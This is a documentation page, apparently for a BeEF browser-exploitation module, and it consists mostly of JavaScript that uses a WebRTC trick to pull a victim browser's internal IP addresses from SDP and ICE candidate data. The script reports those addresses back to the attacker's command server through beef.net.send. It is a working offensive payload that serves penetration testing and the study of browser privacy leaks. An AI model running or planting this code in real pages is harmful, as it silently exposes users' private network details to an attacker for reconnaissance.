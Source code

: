 ## Summary
* **Objective**: Get the internal IP address using a nice WebRTC hack
* **Date**: Septembre 2013
* **Authors**: xntrick, @natevw
* **Browsers**: Firefox, Chrome (all versions)
* [[Code|https://github.com/beefproject/beef/tree/master/modules/host/get_internal_ip_webrtc]]

## Internal Working

Use a fun RTC Hack to get the IP address:

```javascript
var RTCPeerConnection = window.webkitRTCPeerConnection || window.mozRTCPeerConnection;

        if (RTCPeerConnection) (function () {

                var addrs = Object.create(null);
            addrs["0.0.0.0"] = false;

            // Establish a connection with ICE / relay servers - in this instance: NONE
            var rtc = new RTCPeerConnection({iceServers:[]});
            if (window.mozRTCPeerConnection) {      // FF needs a channel/stream to proceed
                rtc.createDataChannel('', {reliable:false});
            };

            // Upon an ICE candidate being found
            // Grep the SDP data for IP address data
            rtc.onicecandidate = function (evt) {
                if (evt.candidate) grepSDP(evt.candidate.candidate);
            };

            // Create an SDP offer
            rtc.createOffer(function (offerDesc) {
                grepSDP(offerDesc.sdp);
                rtc.setLocalDescription(offerDesc);
            }, function (e) { beef.net.send('<%= @command_url %>', <%= @command_id %>, "SDP Offer Failed"); });

            function processIPs(newAddr) {
                if (newAddr in addrs) return;
                else addrs[newAddr] = true;
                var displayAddrs = Object.keys(addrs).filter(function (k) { return addrs[k]; });
                beef.net.send('<%= @command_url %>', <%= @command_id %>, "IP is " + displayAddrs.join(" or perhaps "));
            }

            function grepSDP(sdp) {
                var hosts = [];
                sdp.split('\r\n').forEach(function (line) { // c.f. http://tools.ietf.org/html/rfc4566#page-39
                    if (~line.indexOf("a=candidate")) {     // http://tools.ietf.org/html/rfc4566#section-5.13
                        var parts = line.split(' '),        // http://tools.ietf.org/html/rfc5245#section-15.1
                            addr = parts[4],
                            type = parts[7];
                        if (type === 'host') processIPs(addr);
                    } else if (~line.indexOf("c=")) {       // http://tools.ietf.org/html/rfc4566#section-5.7
                        var parts = line.split(' '),
                            addr = parts[2];
                        processIPs(addr);
                    }
                });
            }

```

## Feedback

* **Firefox**: Working on 28-

## References

* http://net.ipcalf.com/
